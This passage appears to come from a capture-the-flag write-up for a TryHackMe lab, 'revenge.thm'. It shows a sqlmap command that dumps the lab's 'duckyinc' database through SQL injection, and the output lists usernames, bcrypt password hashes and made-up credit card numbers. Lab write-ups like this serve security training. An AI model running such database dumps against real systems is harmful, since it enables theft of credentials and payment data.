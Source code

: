 ```
```

Next, I focus on the **duckyinc** which is not the default database of **MySQL** and must contain sensitive data:

```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://revenge.thm/products/1 --dump -D duckyinc --batch
[...]
Database: duckyinc
Table: system_user
[3 entries]
+----+----------------------+--------------+--------------------------------------------------------------+
| id | email                | username     | _password                                                    |
+----+----------------------+--------------+--------------------------------------------------------------+
| 1  | sadmin@duckyinc.org  | server-admin | $2a$08$GPh7KZcK2kNIQEm5byBj1umCQ79xP.zQe19hPoG/w2GoebUtPfT8a |
| 2  | kmotley@duckyinc.org | kmotley      | $2a$12$LEENY/LWOfyxyCBUlfX8Mu8viV9mGUse97L8x.4L66e9xwzzHfsQa |
| 3  | dhughes@duckyinc.org | dhughes      | $2a$12$22xS/uDxuIsPqrRcxtVmi.GR2/xh0xITGdHuubRF4Iilg5ENAFlcK |
+----+----------------------+--------------+--------------------------------------------------------------+
[...]
Database: duckyinc
Table: user
[10 entries]
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| id | email                           | company          | username | _password                                                    | credit_card                |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
| 1  | sales@fakeinc.org               | Fake Inc         | jhenry   | $2a$12$dAV7fq4KIUyUEOALi8P2dOuXRj5ptOoeRtYLHS85vd/SBDv.tYXOa | 4338736490565706           |
| 2  | accountspayable@ecorp.org       | Evil Corp        | smonroe  | $2a$12$6KhFSANS9cF6riOw5C66nerchvkU9AHLVk7I8fKmBkh6P/rPGmanm | 355219744086163            |
| 3  | accounts.payable@mcdoonalds.org | McDoonalds Inc   | dross    | $2a$12$9VmMpa8FufYHT1KNvjB1HuQm9LF8EX.KkDwh9VRDb5hMk3eXNRC4C | 349789518019219            |
| 4  | sales@ABC.com                   | ABC Corp         | ngross   | $2a$12$LMWOgC37PCtG7BrcbZpddOGquZPyrRBo5XjQUIVVAlIKFHMysV9EO | 4499108649937274           |
| 5  | sales@threebelow.com            | Three Below      | jlawlor  | $2a$12$hEg5iGFZSsec643AOjV5zellkzprMQxgdh1grCW3SMG9qV9CKzyRu | 4563593127115348           |
| 6  | ap@krasco.org                   | Krasco Org       | mandrews | $2a$12$reNFrUWe4taGXZNdHAhRme6UR2uX..t/XCR6UnzTK6sh1UhREd1rC | thm{[REDACTED]} |
| 7  | payable@wallyworld.com          | Wally World Corp | dgorman  | $2a$12$8IlMgC9UoN0mUmdrS3b3KO0gLexfZ1WvA86San/YRODIbC8UGinNm | 4905698211632780           |
| 8  | payables@orlando.gov            | Orlando City     | mbutts   | $2a$12$dmdKBc/0yxD9h81ziGHW4e5cYhsAiU4nCADuN0tCE8PaEv51oHWbS | 4690248976187759           |
| 9  | sales@dollatwee.com             | Dolla Twee       | hmontana | $2a$12$q6Ba.wuGpch1SnZvEJ1JDethQaMwUyTHkR0pNtyTW6anur.3.0cem | 375019041714434            |
| 10 | sales@ofamdollar                | O!  Fam Dollar   | csmith   | $2a$12$gxC7HlIWxMKTLGexTq8cn.nNnUaYKUpI91QaqQ/E29vtwlwyvXe36 | 364774395134471            |
+----+---------------------------------+------------------+----------+--------------------------------------------------------------+----------------------------+
```
